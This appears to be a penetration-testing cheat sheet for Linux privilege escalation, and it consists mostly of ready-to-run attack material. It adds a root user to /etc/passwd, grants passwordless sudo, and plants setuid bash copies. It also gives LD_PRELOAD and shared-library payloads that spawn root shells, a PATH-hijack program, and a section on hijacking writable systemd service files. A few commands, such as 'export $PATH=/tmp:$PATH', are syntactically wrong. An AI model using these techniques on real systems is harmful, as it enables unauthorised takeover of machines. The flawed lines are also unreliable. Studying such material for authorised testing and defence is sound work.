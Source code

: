# Privileges Exploitation

## Writable /etc/passwd

Create a new user entry in root group and append it to the /etc/passwd file

```bash
echo "<username>:$(openssl passwd <password>):0:0:/root:/root:/bin/bash" >> /etc/passwd
```

## Writable /etc/sudoers

Allow current user to invoke any program with sudo without needing the password

```bash
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```

## Elevated shell with sticky bit

By exploiting an application running as root (for instance a database or a script) it is possible to obtain an elevated shell by executing the following commands within the elevated application:

```bash
cp /bin/dash /tmp/<file>
chmod u+s /tmp/<file>
#execute the elevated shell
/tmp/<file> -p
```

## LD\_PRELOAD

If you find inside the output of `sudo -l` the sentence: env\_keep+=LD\_PRELOAD and you can call some command with sudo, you can escalate privileges.

#### exploit code

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

#### compile and execute

```bash
cd /tmp
gcc -fPIC -shared -o pv.so <file>.c -nostartfiles
sudo LD_PRELOAD=pv.so <any command you can call with sudo>
```

## SUID exploit

### Built-in exploitable binaries

{% embed url="https://gtfobins.github.io/" %}

### Shared library hijack

#### check for missing .so files

```bash
strace <binary> 2>&1 | grep -i -E "open|access|no such file"
ldd <file> | grep "not found"
```

#### Shared library code

Put the file in the path of the missing library or replace it if you can write in the folder.

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

#### Compile as

```bash
gcc -shared -o <path to library> -fPIC <file>.c
```

### Relative path hijack

#### Find calls to system binaries in executable file

Search for calls to executables with relative paths, for instance instead of `/bin/cp` look for `cp`

```bash
strings <file>    #static calls
ltrace <file>     #library calls during execution
```

#### boilerplate code

```bash
#include <stdio.h>
#include <stdlib.h>

int main(){
setresuid(0,0,0);
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
return 0;
}
```

#### compile and execute

Add the /tmp folder to the $PATH variable and compile the malicious program with the same name as the relative path executable invoked in the vulnerable executable. In this way the generated malicious program will be detected and executed before the system one.

```bash
export $PATH=/tmp:$PATH
gcc -o /tmp/<name>.so <name>.c -s --static
/<path to vuln binary>
```

## Writable service files

Can be found by searching for .service files with write permission or by checking write permissions with sudo -l

### File template

the Exec\* instructions can be hijacked to execute arbitrary scripts

```
[Unit]
Description=The NGINX HTTP and reverse proxy server
After=syslog.target network.target remote-fs.target nss-lookup.target

[Service]
Type=forking
PIDFile=/run/nginx.pid
ExecStartPre=/usr/sbin/nginx -t
ExecStart=/usr/sbin/nginx
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s QUIT $MAINPID
PrivateTmp=true

[Install]
WantedBy=multi-user.target
```

The basic structure of a service file is the following:

```
[Unit]
Description=Foo

[Service]
ExecStart=/usr/sbin/foo-daemon

[Install]
WantedBy=multi-user.target
```

### Manage services

```
which <deamon>                    get the path to the running deamon
sudo systemctl start <deamon>     start deamon        
sudo systemctl stop <deamon>      stop deamon
sudo systemctl restart <deamon>   restart deamon
systemctl status <deamon>         get status info
sudo systemctl enable <deamon>    launch deamon on startup
journalctl -u <deamon>            access logs for given deamon
```

